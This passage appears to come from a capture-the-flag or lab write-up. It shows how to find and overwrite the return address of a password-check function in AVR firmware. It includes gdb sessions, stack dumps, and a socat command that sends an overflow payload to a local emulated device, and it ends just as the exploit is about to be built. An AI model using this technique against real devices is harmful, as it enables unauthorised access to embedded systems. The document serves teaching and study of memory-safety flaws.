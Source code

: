 Add a breakpoint on `passwd_check` stack cleanup epilogue (disas the function in gdb and locate the `cli` instruction at the end), then continue execution:
```bash
(gdb) b *0x00000428
Breakpoint 1 at 0x800428
(gdb) c
```

Let's check the stack to see the return address.

```bash
^C
Program received signal SIGINT, Interrupt.
0x000001fa in uart_get () at uart.c:27
27		while (!(UCSR0A & (1<<RXC0))) {} 
(gdb) bt
#0  0x000001fa in uart_get () at uart.c:27
#1  0x00000376 in passwd_check () at main.c:45
#2  0x0000045c in main () at main.c:66
(gdb) frame 1
#1  0x00000376 in passwd_check () at main.c:45
45			buff[i] = uart_get();
(gdb) x/30xh $sp
0x8021dc:	0x00bb	0x0000	0x0000	0x0000	0x0000	0x0000	0x0000	0x0000
0x8021ec:	0x0000	0x0000	0x0000	0x0000	0x2100	0x00f9	0x2e02	0x2100
0x8021fc:	0x00ff	0x9d00	Cannot access memory at address 0x802200
```

Remember called address is not the same as memory address. Thus, divide the frame return address by 2 (`hex(0x45c // 2) == 0x22e`. We can see that FP, which is located just above return address, would be `0xf900` if return address was 2 bytes, which is an invalid stack frame pointer. It makes much more sense to think return address is 3 bytes, as FP would be `0x21f9` in this case (remember that stack base is `0x21ff`).


Now, continue the process in gdb and write some data to UART (not too much, stack frame is close to the stack base), then check the stack layout after the `cli` instruction.

In shell:
```bash
socat exec:"python3 -c \"print('A'*19 + 'BBCC')\"" tcp:localhost:1337
```

Check back the stack to see `"BBC"` (`0x424243`) get written to the return address.

```bash
Program received signal SIGTRAP, Trace/breakpoint trap.
0x00000428 in passwd_check () at main.c:57
57	}
(gdb) x/30xh $sp
0x8021dc:	0x11bb	0x5900	0x0b00	0x0001	0x4141	0x4141	0x4141	0x4141
0x8021ec:	0x4141	0x4141	0x4141	0x4141	0x4141	0x4241	0x4342	0x0043
0x8021fc:	0x00ff	0x9d00	Cannot access memory at address 0x802200
(gdb) 
```

Now that we know how many bytes to overflow and how many bytes is the return address. Let's build the exploit.
